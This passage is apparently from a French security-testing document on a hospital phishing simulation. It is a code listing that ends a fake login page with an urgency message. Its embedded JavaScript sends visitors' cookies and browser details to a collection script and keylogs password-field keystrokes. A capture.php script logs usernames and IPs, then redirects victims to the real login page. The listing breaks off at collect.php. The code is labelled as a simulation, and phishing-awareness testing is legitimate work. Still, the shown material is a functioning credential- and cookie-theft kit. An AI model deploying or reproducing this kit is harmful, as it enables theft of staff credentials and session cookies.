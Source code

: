 \begin{lstlisting}[style=bashstyle,caption=Configuration serveur web malveillant pour tests]
        <p style="font-size:12px; color:#666; margin-top:20px;">
            [TIME] Temps limite: Reconnectez-vous dans les 5 minutes pour eviter le blocage de votre compte.
        </p>
    </div>
    
    <!-- JavaScript malveillant pour tests -->
    <script>
        // Simulation collecte d'informations
        var info = {
            userAgent: navigator.userAgent,
            language: navigator.language,
            platform: navigator.platform,
            timestamp: new Date().toISOString(),
            referrer: document.referrer,
            cookies: document.cookie
        };
        
        // Envoi vers serveur d'attaque (simulation)
        fetch('/collect.php', {
            method: 'POST',
            headers: {'Content-Type': 'application/json'},
            body: JSON.stringify(info)
        }).catch(e => console.log('Collection failed'));
        
        // Simulation keylogger
        document.addEventListener('keypress', function(e) {
            if(e.target.type === 'password') {
                fetch('/keylog.php', {
                    method: 'POST',
                    body: 'key=' + e.key + '&time=' + Date.now()
                }).catch(e => {});
            }
        });
    </script>
</body>
</html>
EOF

# Script de capture des credentials (simulation)
cat > capture.php << 'EOF'
<?php
// capture.php - Simulation capture credentials pour tests

$log_file = '/var/log/malicious_capture.log';
$timestamp = date('Y-m-d H:i:s');
$ip = $_SERVER['REMOTE_ADDR'];
$user_agent = $_SERVER['HTTP_USER_AGENT'] ?? 'Unknown';

$username = $_POST['username'] ?? '';
$password = $_POST['password'] ?? '';

// Log de la tentative de phishing
$log_entry = json_encode([
    'timestamp' => $timestamp,
    'ip' => $ip,
    'user_agent' => $user_agent,
    'username' => $username,
    'password' => str_repeat('*', strlen($password)), // Masque pour securite
    'test_type' => 'hospital_phishing_simulation'
]) . "\n";

file_put_contents($log_file, $log_entry, FILE_APPEND | LOCK_EX);

// Redirection vers vraie page apres capture
header('Location: http://hospital-real.local/login?error=session_expired');
exit;
?>
EOF

# Script de collecte d'informations systeme
cat > collect.php << 'EOF'
<?php
// collect.php - Collecte d'informations pour tests


\end{lstlisting}
